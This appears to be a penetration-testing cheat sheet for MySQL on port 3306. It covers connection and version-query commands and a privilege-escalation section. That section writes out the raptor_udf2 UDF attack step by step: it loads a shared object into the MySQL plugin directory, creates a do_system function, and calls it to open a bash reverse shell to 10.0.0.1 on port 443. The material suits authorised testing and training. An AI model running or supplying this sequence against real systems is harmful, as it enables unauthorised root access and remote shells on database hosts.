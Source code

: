 ## TCP 3306 mysql

### Connecting to Mysql  
```mysql -u user --password db_name```

### MySQL Commands
```
# Get the db version information
SELECT @@VERSION; 
```

### Privilege Escalation

Mysql 4.x & 5.0 (requires valid creds) - [dynamic library for do_system() MySQL UDF-raptor_udf2.c](https://www.exploit-db.com/exploits/1518)
```mysql> create table foo(line blob);
mysql> insert into foo values(load_file(‘/tmp/exploit.so’));
mysql> select * from foo into dumpfile ‘/usr/lib/mysql/plugin/exploit.so’;
mysql> create function do_system returns integer soname ‘exploit.so’;
mysql> select do_system(‘bash -i >& /dev/tcp/10.0.0.1/443 0>&1’);
```
REF: [mysql system to root](https://recipeforroot.com/mysql-to-system-root/)
